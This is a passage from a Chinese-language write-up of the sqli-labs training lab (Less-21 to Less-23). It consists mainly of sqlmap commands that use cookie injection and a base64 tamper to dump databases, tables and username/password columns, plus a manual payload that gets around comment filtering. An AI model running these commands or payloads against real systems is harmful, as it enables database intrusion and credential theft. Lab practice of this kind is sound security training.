 ### sqlmap自动跑

```
sqlmap -u "http://daishen.ltd:1112/Less-21/" --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --random-agent --flush-session --technique=U -v 3
```

暴库

```
sqlmap -u "http://daishen.ltd:1112/Less-21/" --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --random-agent --flush-session --technique=U -v 3 --batch --dbs
```

暴表

```
sqlmap -u "http://daishen.ltd:1112/Less-21/" --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --random-agent --flush-session --technique=U -v 3 --batch -D security --tables
```

暴列名

```
sqlmap -u "http://daishen.ltd:1112/Less-21/" --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --random-agent --flush-session --technique=U -v 3 --batch -D security -T users --columns
```

暴数据

```
sqlmap -u "http://daishen.ltd:1112/Less-21/" --cookie="uname=*" --tamper="base64encode" --dbms=MySQL --random-agent --flush-session --technique=U -v 3 --batch -D security -T users -C username,password -dump
```

# **Less-22** 

**Cookie Injection- Error Based- Double Quotes - string (基于错误的双引号字符型Cookie注入)**



和less-21一样的，只需要使用双引号代替单引号**再取掉括号****，**

# **Less-23** 

**GET - Error based - strip comments (基于错误的，过滤注释的GET型)**



**过滤了注释符号**所以只能构造闭合语句

确定字段数 

```
http://daishen.ltd:1112/Less-23/?id=1' and 1=2 order by 3 and '1' ='1
```

确定字段位置
